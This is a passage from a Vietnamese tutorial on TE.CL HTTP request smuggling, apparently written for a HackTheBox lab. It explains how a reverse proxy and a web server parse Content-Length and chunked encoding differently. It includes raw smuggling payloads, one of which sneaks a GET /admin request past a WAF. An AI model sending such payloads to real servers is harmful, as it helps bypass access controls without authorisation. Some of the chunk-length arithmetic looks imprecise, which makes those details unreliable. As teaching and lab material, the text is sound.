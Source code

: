 - **Khai thác**:
  - Gửi các yêu cầu đầu tiên và thứ hai theo chuỗi và quan sát sự khác biệt trong cách reverse proxy và web server xử lý chúng.

#### 4. **Mô phỏng tấn công TE.CL với WAF**
Giả sử có một Web Application Firewall (WAF) chặn tất cả các yêu cầu chứa từ khóa "admin" trong URL. Kẻ tấn công có thể gửi hai yêu cầu:
```http
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked
27

GET /admin HTTP/1.1
Host: tecl.htb
0
```

##### Giải thích:
- **Yêu cầu đầu tiên** sẽ nhận phản hồi 404 (không tìm thấy).
- **Yêu cầu thứ hai** sẽ được xử lý bởi web server như thể nó là một yêu cầu độc lập, và do đó không bị chặn bởi WAF.

Kết quả là:
- WAF không chặn yêu cầu thứ hai vì nó không chứa "admin" trong URL, mặc dù thực tế yêu cầu thứ hai thực sự có thể truy cập được trang admin.
- Web server xử lý yêu cầu thứ hai (GET /admin) và trả về trang quản trị mà không bị WAF chặn.

#### 5. **Tóm tắt về TE.CL Request Smuggling**
- **TE.CL** xảy ra khi reverse proxy và web server phân tích dữ liệu yêu cầu theo cách khác nhau (chunked encoding và Content-Length).
- Kỹ thuật này có thể bị khai thác để vượt qua các biện pháp bảo mật như WAF, giúp kẻ tấn công truy cập vào các tài nguyên bị hạn chế hoặc tiêm mã độc vào yêu cầu hợp lệ.
- Việc khai thác yêu cầu các công cụ như Burp Suite và sự hiểu biết về cách web server và reverse proxy xử lý HTTP.

#### 6. **Ví dụ**
Giả sử bạn gửi một yêu cầu sau:

```http
POST / HTTP/1.1
Host: tecl.htb
Content-Length: 3
Transfer-Encoding: chunked
5
HELLO
0

GET / HTTP/1.1
Host: tecl.htb
```

- **Reverse Proxy** sẽ đọc "HELLO" từ chunked encoding, nhưng web server sẽ chỉ đọc 3 byte từ header `Content-Length` (chỉ có "5"), làm cho nó nghĩ rằng yêu cầu chưa hoàn tất và bắt đầu xử lý yêu cầu thứ hai (`GET /`).
